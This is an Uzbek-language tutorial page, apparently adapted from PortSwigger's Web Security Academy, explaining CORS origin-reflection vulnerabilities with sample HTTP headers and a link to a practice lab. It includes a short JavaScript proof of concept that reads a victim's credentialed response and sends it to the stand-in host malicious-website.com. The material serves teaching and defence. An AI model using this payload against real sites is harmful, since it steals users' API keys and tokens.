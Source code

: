 Ba'zi websaytlar bir qator boshqa domenlarga kirishni ta'minlashi kerak. Ruxsat etilgan domenlar ro'yxatini saqlash doimiy harakatni talab qiladi va har qanday xatolik funksionallikni buzish xavfini tug'diradi. Shunday ekan ba'zi web saytlarda boshqa domenga ruxsat olish osonlikcha amalga oshirilishi mumkin.

Buning usullaridan biri soʻrovlardan `Origin` headerini oʻqish va soʻrovning kelib chiqishiga ruxsat berilganligini bildiruvchi javob headerini kiritishdir. Masalan, quyidagi websayt so'roviga qarang :

```http
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

va u mana bunday javob qaytaradi:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

Bu headerlardan shuni bilish mumkinki, [https://malicious-website.com](https://malicious-website.com) web saytga ruxsat olingan va cross-origin so'rovlarda cookie saqlanadi (`Access-Control-Allow-Credentials: true`) va u faqat ushbu sessiyada ishlashini ta'minlaydi.

Chunki web sayt o'zboshimchalik bilan domenlarga `Access-Control-Allow-Origin`ni header ga qo'shib jo'natmoqda, bu esa har qanday domen orqali zaif web saytning resurslariga kirish mumkin. Agar responseda har qanday API key yoki CSRF token bo'lsa siz uni skript yozib olishingiz mumkin. Masalan:

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='//malicious-website.com/log?key='+this.responseText;
};
```

{% hint style="warning" %}
<mark style="color:yellow;">**Lab:**</mark> [Boshlang'ich orign reflection bilan CORS zaifligi ≫](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)
{% endhint %}

## <mark style="color:yellow;">Origin headerlarni tahlil qilinishidagi xatolar</mark> <a href="#origin-header-larni-tahlil-qilinishidagi-xatolar" id="origin-header-larni-tahlil-qilinishidagi-xatolar"></a>

Ba'zi web saytlarda ko'plab originlardan foydalanadi va ular whitelistda saqlanadi. Qachonki CORS request kelsa, u white listdagi domen bilan solishtirib ko'radi. Agar origin white listda bo'lsa responseda `Access-Control-Allow-Origin` headerini qo'shib jo'natadi. Misol uchun, web sayt mana bunday request qabul qildi:
